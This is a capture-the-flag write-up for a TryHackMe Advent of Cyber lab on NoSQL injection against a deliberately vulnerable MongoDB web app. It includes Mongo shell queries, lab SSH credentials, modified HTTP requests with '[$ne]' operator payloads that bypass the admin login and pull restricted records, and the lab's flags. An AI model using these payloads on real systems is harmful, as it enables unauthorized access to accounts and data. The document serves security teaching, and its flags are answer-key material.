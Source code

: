 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 7
### References
* Tib3rius. (2021). TryHackMe - Advent of Cyber 3 - Day 7 Walkthrough [YouTube Video]. In YouTube. https://youtu.be/Fmw8ia0sMEc

## Interact with the MongoDB server to find the flag. What is the flag?
```bash
$ ssh thm@10.10.51.12 -p 2222
thm@10.10.51.12 password: tryhackme
thm@mongo-server:~$ mongo
> show databases
admin   0.000GB
config  0.000GB
flagdb  0.000GB
local   0.000GB
> use flagdb
switched to db flagdb
> db.getCollectionNames()
[ "flagColl" ]
> db.flagColl.find()
{ "_id" : ObjectId("618806af0afbc09bdf42bd6a"), "flag" : "THM{8814a5e6662a9763f7df23ee59d944f9}" }
> 
```

**Flag**: `THM{8814a5e6662a9763f7df23ee59d944f9}`
## Can you log into the application that Grinch Enterprise controls as `admin` and retrieve the flag?
* Modified request:
```http
POST /login HTTP/1.1
Host: 10.10.51.12
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.51.12
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.51.12/login
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3An5mfgw2iQV38JdLhHGhJi9pqIuZWZ59L.Ea2JWiFK6QK08nqlNsYtS1tLoWiTsDwq8jQIL5b3CsA
Connection: close

username=admin&password[$ne]=password
```
* `http://10.10.51.12/flag`

**Flag**: `THM{b6b304f5d5834a4d089b570840b467a8}`
## Once you are logged in, use the gift search page to list all usernames that have `guest` roles. What is the flag?
* Modified request:
```http
GET /search?username[$ne]=admin&role=guest HTTP/1.1
Host: 10.10.51.12
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.51.12/search
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3An5mfgw2iQV38JdLhHGhJi9pqIuZWZ59L.Ea2JWiFK6QK08nqlNsYtS1tLoWiTsDwq8jQIL5b3CsA
Connection: close
```

**Flag**: `THM{2ec099f2d602cc4968c5267970be1326}`
## Use the gift search page to perform NoSQL injection and retrieve the `mcskidy` record. What is the details record?
* Modified request:
```http
GET /search?username=mcskidy&role[$ne]=user HTTP/1.1
Host: 10.10.51.12
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.51.12/search?username=mcskidy&role=user
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3An5mfgw2iQV38JdLhHGhJi9pqIuZWZ59L.Ea2JWiFK6QK08nqlNsYtS1tLoWiTsDwq8jQIL5b3CsA
If-None-Match: W/"6e6-qHudxedQgEeOez/PbVUmml7RbVA"
Connection: close
```

**Answer**: `ID:6184f516ef6da50433f100f4:mcskidy:admin`
